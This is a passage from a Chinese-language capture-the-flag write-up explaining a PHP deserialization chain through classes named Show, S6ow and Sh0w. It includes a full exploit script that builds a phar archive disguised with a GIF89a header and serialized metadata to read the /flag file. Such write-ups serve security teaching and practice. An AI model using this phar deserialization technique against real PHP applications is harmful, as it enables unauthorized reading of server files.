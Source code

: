 因此只要调用它，并令file为Show类的对象即可调用toString,那么此时我们只需要让Sh0w的str为S6ow类的对象，即可触发器call方法，这里

[![](https://p1.ssl.qhimg.com/t01bef8f8db5b14dfd5.png)](https://p1.ssl.qhimg.com/t01bef8f8db5b14dfd5.png)

我们只需要让this-&gt;`{`name`}`为file_get即可，结合

[![](https://p4.ssl.qhimg.com/t01ad885082ec478bc2.png)](https://p4.ssl.qhimg.com/t01ad885082ec478bc2.png)

get方法，当访问不存在的属性将访问其返回$this-&gt;params[$key]，因此这里我们就能够使用params[‘_show’]=“file_get”即可，要读取的flag位于/flag下，因此可以结合phar构造通用脚本构造exp如下：

```
&lt;?php
$phar = new Phar('test.phar');
$phar-&gt;startBuffering();
$phar-&gt;addFromString('test.txt','text');
$phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;");
class Show
`{`
    public $source;
    public function __construct()`{`
            $this-&gt;source="/flag";
    `}`
`}`

class S6ow
`{`
    public $file;
    public $params;


`}`
class Sh0w
`{`
    public $test;
    public $str;
`}`
$c=new Show();
$b=new S6ow();
$b-&gt;params['_show']="file_get";
$b-&gt;file=$c;
$object = new Sh0w();
$object-&gt;str=$b;
echo urlencode(serialize($object));
$phar-&gt;setMetadata($object);
$phar-&gt;stopBuffering();
```

[![](https://p5.ssl.qhimg.com/t01c5bd766b6b77638b.png)](https://p5.ssl.qhimg.com/t01c5bd766b6b77638b.png)

然后将base64解码就是flag
